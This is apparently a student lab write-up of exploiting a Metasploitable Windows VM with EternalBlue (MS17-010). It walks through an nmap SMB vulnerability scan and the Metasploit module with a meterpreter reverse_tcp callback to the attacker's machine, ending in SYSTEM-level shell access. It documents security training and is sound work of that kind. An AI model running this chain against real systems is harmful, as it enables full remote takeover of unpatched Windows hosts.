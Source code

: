 Eternal Blue

Objective:

I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.
I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.
To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.
To proceed, I launched the Metasploit framework using the **msfconsole** command.
Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.
I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).
Initiating the attack, I executed the **exploit** command.
To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.
Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.
